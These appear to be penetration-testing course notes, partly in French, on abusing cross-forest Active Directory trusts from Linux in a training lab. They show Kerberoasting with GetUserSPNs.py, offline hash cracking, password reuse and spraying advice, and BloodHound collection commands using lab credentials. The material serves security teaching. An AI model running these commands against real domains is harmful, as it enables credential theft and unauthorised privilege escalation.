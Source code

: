 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

***

### <mark style="color:blue;">Cross-Forest Kerberoasting</mark>

**Using GetUserSPNs.py**

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
{% endcode %}

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

**Using the -request Flag**

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```
{% endcode %}

On peut essayer de **craquer le hash hors ligne** avec Hashcat en mode 13100. Si cela réussit, on pourra s'authentifier sur le domaine **FREIGHTLOGISTICS.LOCAL** en tant qu'**administrateur du domaine**.

Si cette attaque fonctionne lors d'un audit réel, il est utile de **vérifier si le même compte existe dans notre domaine actuel** et s'il réutilise le même mot de passe. Cela pourrait nous permettre d'**escalader rapidement nos privilèges** si nous n'avons pas encore obtenu un accès élevé. Même si nous contrôlons déjà notre domaine actuel, la **réutilisation de mots de passe entre domaines similaires** est une faille importante à signaler dans notre rapport.

Si nous avons déjà **épuisé les options** dans notre domaine actuel, nous pouvons aussi essayer un **password spray** avec le mot de passe craqué sur les comptes de services, car les mêmes administrateurs peuvent gérer plusieurs domaines et utiliser des mots de passe identiques. Cela illustre l'importance des **tests itératifs** et de l'exploration approfondie de toutes les pistes possibles.

***

### <mark style="color:red;">Hunting Foreign Group Membership with Bloodhound-python</mark>

Dans certains cas, des **utilisateurs ou administrateurs d’un domaine** peuvent être **membres d’un groupe dans un autre domaine**, surtout si une **relation de confiance bidirectionnelle entre forêts** est en place. Étant donné que **seuls les Domain Local Groups acceptent des membres externes**, il est courant de voir un **utilisateur hautement privilégié** du **Domaine A** être membre du groupe **Administrators intégré du Domaine B**.

#### <mark style="color:green;">**Collecte d’informations avec BloodHound (Linux)**</mark>

* Si nous effectuons le test depuis un **hôte Linux**, nous pouvons utiliser la **version Python de BloodHound** pour collecter ces informations.
* Cet outil permet de **cartographier les relations entre plusieurs domaines** et d'identifier ces appartenances dans son interface graphique.

#### <mark style="color:green;">**Configuration DNS pour la collecte des données**</mark>

* Parfois, le client peut nous fournir une **machine virtuelle** qui obtient une **IP via DHCP** et utilise le **DNS interne du domaine**.
* Si nous utilisons un **hôte sans DNS configuré**, nous devons **modifier le fichier resolv.conf** pour que l’outil fonctionne.
* La configuration implique de **commenter les serveurs DNS actuels** et d’**ajouter le nom de domaine ainsi que l’adresse IP du contrôleur de domaine** cible (exemple : **ACADEMY-EA-DC01**).

Cela permet de **résoudre correctement le nom de domaine du contrôleur de domaine** et d'exécuter BloodHound sans problème.

<mark style="color:green;">**Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Once this is in place, we can run the tool against the target domain as follows:

<mark style="color:green;">**Running bloodhound-python Against INLANEFREIGHT.LOCAL**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```
{% endcode %}

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

<mark style="color:green;">**Compressing the File with zip -r**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ zip -r ilfreight_bh.zip *.json
```

We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

<mark style="color:green;">**Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

The `bloodhound-python` command will look similar to the previous one:

<mark style="color:green;">**Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```
{% endcode %}

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

**Viewing Dangerous Rights through BloodHound**

![image](https://academy.hackthebox.com/storage/modules/143/foreign_membership.png)

***
